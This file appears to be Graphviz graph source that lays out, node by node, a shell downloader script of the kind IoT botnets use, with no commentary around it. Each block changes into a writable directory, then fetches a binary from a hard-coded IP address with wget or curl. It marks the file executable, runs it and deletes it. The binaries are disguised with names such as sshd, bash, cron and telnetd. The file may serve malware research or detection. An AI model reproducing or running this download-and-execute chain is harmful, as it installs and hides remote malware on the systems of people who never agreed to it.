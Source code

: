 digraph {
2 [label=" cd /tmp"];
2 -> 6;
2 -> 22;
6 [label=" cd /var/run"];
6 -> 10;
6 -> 22;
10 [label=" cd /mnt"];
10 -> 14;
10 -> 22;
14 [label=" cd /root"];
14 -> 18;
14 -> 22;
18 [label=" cd /"];
18 -> 22;
22 [label=" wget http://165.227.106.171/ntpd"];
22 -> 26;
26 [label=" curl -O http://165.227.106.171/ntpd"];
26 -> 31;
31 [label=" chmod +x ntpd"];
31 -> 36;
36 [label=" ./ntpd"];
36 -> 39;
39 [label=" rm -rf ntpd"];
39 -> 44;
44 [label=" cd /tmp"];
44 -> 48;
44 -> 64;
48 [label=" cd /var/run"];
48 -> 52;
48 -> 64;
52 [label=" cd /mnt"];
52 -> 56;
52 -> 64;
56 [label=" cd /root"];
56 -> 60;
56 -> 64;
60 [label=" cd /"];
60 -> 64;
64 [label=" wget http://165.227.106.171/sshd"];
64 -> 68;
68 [label=" curl -O http://165.227.106.171/sshd"];
68 -> 73;
73 [label=" chmod +x sshd"];
73 -> 78;
78 [label=" ./sshd"];
78 -> 81;
81 [label=" rm -rf sshd"];
81 -> 86;
86 [label=" cd /tmp"];
86 -> 90;
86 -> 106;
90 [label=" cd /var/run"];
90 -> 94;
90 -> 106;
94 [label=" cd /mnt"];
94 -> 98;
94 -> 106;
98 [label=" cd /root"];
98 -> 102;
98 -> 106;
102 [label=" cd /"];
102 -> 106;
106 [label=" wget http://165.227.106.171/openssh"];
106 -> 110;
110 [label=" curl -O http://165.227.106.171/openssh"];
110 -> 115;
115 [label=" chmod +x openssh"];
115 -> 120;
120 [label=" ./openssh"];
120 -> 123;
123 [label=" rm -rf openssh"];
123 -> 128;
128 [label=" cd /tmp"];
128 -> 132;
128 -> 148;
132 [label=" cd /var/run"];
132 -> 136;
132 -> 148;
136 [label=" cd /mnt"];
136 -> 140;
136 -> 148;
140 [label=" cd /root"];
140 -> 144;
140 -> 148;
144 [label=" cd /"];
144 -> 148;
148 [label=" wget http://165.227.106.171/bash"];
148 -> 152;
152 [label=" curl -O http://165.227.106.171/bash"];
152 -> 157;
157 [label=" chmod +x bash"];
157 -> 162;
162 [label=" ./bash"];
162 -> 165;
165 [label=" rm -rf bash"];
165 -> 170;
170 [label=" cd /tmp"];
170 -> 174;
170 -> 190;
174 [label=" cd /var/run"];
174 -> 178;
174 -> 190;
178 [label=" cd /mnt"];
178 -> 182;
178 -> 190;
182 [label=" cd /root"];
182 -> 186;
182 -> 190;
186 [label=" cd /"];
186 -> 190;
190 [label=" wget http://165.227.106.171/tftp"];
190 -> 194;
194 [label=" curl -O http://165.227.106.171/tftp"];
194 -> 199;
199 [label=" chmod +x tftp"];
199 -> 204;
204 [label=" ./tftp"];
204 -> 207;
207 [label=" rm -rf tftp"];
207 -> 212;
212 [label=" cd /tmp"];
212 -> 216;
212 -> 232;
216 [label=" cd /var/run"];
216 -> 220;
216 -> 232;
220 [label=" cd /mnt"];
220 -> 224;
220 -> 232;
224 [label=" cd /root"];
224 -> 228;
224 -> 232;
228 [label=" cd /"];
228 -> 232;
232 [label=" wget http://165.227.106.171/wget"];
232 -> 236;
236 [label=" curl -O http://165.227.106.171/wget"];
236 -> 241;
241 [label=" chmod +x wget"];
241 -> 246;
246 [label=" ./wget"];
246 -> 249;
249 [label=" rm -rf wget"];
249 -> 254;
254 [label=" cd /tmp"];
254 -> 258;
254 -> 274;
258 [label=" cd /var/run"];
258 -> 262;
258 -> 274;
262 [label=" cd /mnt"];
262 -> 266;
262 -> 274;
266 [label=" cd /root"];
266 -> 270;
266 -> 274;
270 [label=" cd /"];
270 -> 274;
274 [label=" wget http://165.227.106.171/cron"];
274 -> 278;
278 [label=" curl -O http://165.227.106.171/cron"];
278 -> 283;
283 [label=" chmod +x cron"];
283 -> 288;
288 [label=" ./cron"];
288 -> 291;
291 [label=" rm -rf cron"];
291 -> 296;
296 [label=" cd /tmp"];
296 -> 300;
296 -> 316;
300 [label=" cd /var/run"];
300 -> 304;
300 -> 316;
304 [label=" cd /mnt"];
304 -> 308;
304 -> 316;
308 [label=" cd /root"];
308 -> 312;
308 -> 316;
312 [label=" cd /"];
312 -> 316;
316 [label=" wget http://165.227.106.171/ftp"];
316 -> 320;
320 [label=" curl -O http://165.227.106.171/ftp"];
320 -> 325;
325 [label=" chmod +x ftp"];
325 -> 330;
330 [label=" ./ftp"];
330 -> 333;
333 [label=" rm -rf ftp"];
333 -> 338;
338 [label=" cd /tmp"];
338 -> 342;
338 -> 358;
342 [label=" cd /var/run"];
342 -> 346;
342 -> 358;
346 [label=" cd /mnt"];
346 -> 350;
346 -> 358;
350 [label=" cd /root"];
350 -> 354;
350 -> 358;
354 [label=" cd /"];
354 -> 358;
358 [label=" wget http://165.227.106.171/pftp"];
358 -> 362;
362 [label=" curl -O http://165.227.106.171/pftp"];
362 -> 367;
367 [label=" chmod +x pftp"];
367 -> 372;
372 [label=" ./pftp"];
372 -> 375;
375 [label=" rm -rf pftp"];
375 -> 380;
380 [label=" cd /tmp"];
380 -> 384;
380 -> 400;
384 [label=" cd /var/run"];
384 -> 388;
384 -> 400;
388 [label=" cd /mnt"];
388 -> 392;
388 -> 400;
392 [label=" cd /root"];
392 -> 396;
392 -> 400;
396 [label=" cd /"];
396 -> 400;
400 [label=" wget http://165.227.106.171/sh"];
400 -> 404;
404 [label=" curl -O http://165.227.106.171/sh"];
404 -> 409;
409 [label=" chmod +x sh"];
409 -> 414;
414 [label=" ./sh"];
414 -> 417;
417 [label=" rm -rf sh"];
417 -> 422;
422 [label=" cd /tmp"];
422 -> 426;
422 -> 442;
426 [label=" cd /var/run"];
426 -> 430;
426 -> 442;
430 [label=" cd /mnt"];
430 -> 434;
430 -> 442;
434 [label=" cd /root"];
434 -> 438;
434 -> 442;
438 [label=" cd /"];
438 -> 442;
442 [label=" wget http://165.227.106.171/nut"];
442 -> 446;
446 [label=" curl -O http://165.227.106.171/nut"];
446 -> 451;
451 [label=" chmod +x nut"];
451 -> 456;
456 [label=" ./nut"];
456 -> 459;
459 [label=" rm -rf nut"];
459 -> 464;
464 [label=" cd /tmp"];
464 -> 468;
464 -> 484;
468 [label=" cd /var/run"];
468 -> 472;
468 -> 484;
472 [label=" cd /mnt"];
472 -> 476;
472 -> 484;
476 [label=" cd /root"];
476 -> 480;
476 -> 484;
480 [label=" cd /"];
480 -> 484;
484 [label=" wget http://165.227.106.171/apache2"];
484 -> 488;
488 [label=" curl -O http://165.227.106.171/apache2"];
488 -> 493;
493 [label=" chmod +x apache2"];
493 -> 498;
498 [label=" ./apache2"];
498 -> 501;
501 [label=" rm -rf apache2"];
501 -> 506;
506 [label=" cd /tmp"];
506 -> 510;
506 -> 526;
510 [label=" cd /var/run"];
510 -> 514;
510 -> 526;
514 [label=" cd /mnt"];
514 -> 518;
514 -> 526;
518 [label=" cd /root"];
518 -> 522;
518 -> 526;
522 [label=" cd /"];
522 -> 526;
526 [label=" wget http://165.227.106.171/telnetd"];
526 -> 530;
530 [label=" curl -O http://165.227.106.171/telnetd"];
530 -> 535;
535 [label=" chmod +x telnetd"];
535 -> 540;
540 [label=" ./telnetd"];
540 -> 543;
}
